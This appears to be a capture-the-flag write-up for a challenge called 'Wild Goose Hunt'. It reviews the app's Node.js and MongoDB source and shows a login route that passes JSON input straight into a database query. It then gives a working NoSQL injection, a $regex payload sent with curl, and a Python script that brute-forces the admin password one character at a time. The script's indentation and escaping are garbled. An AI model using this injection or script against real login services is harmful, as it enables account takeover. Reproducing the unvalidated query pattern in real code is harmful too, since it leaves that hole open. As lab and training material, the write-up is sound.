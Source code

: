 # Wild Goose Hunt
![Image](<../Pasted image 20210422121140.png>)

## Analyzing the source files
The downloadable config comes with an entrypoint.sh file. It appears to add a user called admin with the password set as our flag. This will most likely be our endstate target.
```bash
$cat entrypoint.sh 
#!/bin/ash
...snip...
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
```

Our index.js file shows us the database will be running on localhost:27017/heros. It also shows us that any url requested outside of the defined (Directory fuzzing) will result in a 404 response.

```bash
cat challenge/index.js 
const express    = require('express');
const app        = express();
const bodyParser = require('body-parser');
const routes     = require('./routes');
const mongoose   = require('mongoose');

mongoose.connect('mongodb://localhost:27017/heros', { useNewUrlParser: true , useUnifiedTopology: true });

...snip...

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send({
        message: '404 page not found'
...snip...
```

In the routes directory we have another index.js file. It appears we have two browsable directories _/_ and _/api/login_. The _/api/login_ page takes a post request and does some validation on the user for login through a mondb find.() request. Basically, if the username and password values match the database values, it will return with login successful.

```bash
cat challenge/routes/index.js 
const express = require('express');
const router  = express.Router();
const User    = require('../models/User');

router.get('/', (req, res) => {
	return res.render('index');
});

router.post('/api/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return User.find({ 
			username,
			password
		})
			.then((user) => {
				if (user.length == 1) {
					return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
				} else {
					return res.json({logged: 0, message: 'Login Failed'});
				}
			})
			.catch(() => res.json({ message: 'Something went wrong'}));
	}
	return res.json({ message: 'Invalid username or password'});
});

module.exports = router;
```

## Exploitation

We can change the content type header to allow us to insert regex into the mongodb find function. Using regex, we can brute force the flag one character at a time.


```bash

Request:
curl http://localhost:1337/api/login -X POST -H "Content-Type:application/json" -d '{"username":"admin","password": {"$regex": "CHTB{f" }}'

Response:
{"logged":1,"message":"Login Successful, welcome back admin.
```


Using this knowledge, lets build a python script to recover the flag. Our script will run through each ascii character and check for the proper response. If given the proper response, we append it to the flag. Finally, we continue to do this until the entire flag is recovered.

```python
#curl http://localhost:1337/api/login -X POST -H "Content-Type:application/json" -d '{"username":"admin","password": {"$regex": "CHTB{f" }}'

  

import requests

  

#Chars that give false positives

bad = (36,42,43,46,63,124)

  

#Set up our connection and header type

url = 'http://188.166.145.178:32498/api/login'

hdr = { 'Content-Type' : 'application/json' }

  

#Create list to contain flag

flag = list()

  
  

while True:

	#Iterate through the ascii range while avoiding bad chars

	for i in \[x for x in range(31,127) if x not in bad \]:

	c = chr(i)

	test\_flag = ''.join(flag) + c

	unpw = '{"username":"admin","password": {"$regex": "CHTB{%s" }}' % test\_flag

	req = requests.post(url\=url, headers\=hdr, data\=unpw)

	#Check to see if we got the correct char

	if "welcome back admin" in req.text:

		flag.append(c)

		print(flag)

	#Check for last value in flag and print final product

	if flag\[-1\] == "}":

		winner\_flag = ''.join(flag)

		print("Flag: CHTB{%s" % winner\_flag)

		break
```
